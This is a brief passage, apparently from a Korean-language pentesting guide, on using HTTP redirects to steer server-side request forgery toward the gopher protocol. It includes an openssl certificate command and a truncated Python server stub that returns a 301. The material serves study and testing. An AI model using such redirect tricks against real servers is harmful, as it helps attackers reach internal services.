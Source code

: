 ## Gopher로의 SSRF 리디렉션

일부 공격에서는 **리디렉션 응답을 보내야 할 수도 있습니다** (아마도 gopher와 같은 다른 프로토콜을 사용하기 위해). 여기에는 리디렉션으로 응답하는 다양한 파이썬 코드가 있습니다:
```python
# First run: openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class MainHandler(BaseHTTPRequestHandler):
def do_GET(self):
print("GET")
self.send_response(301)

```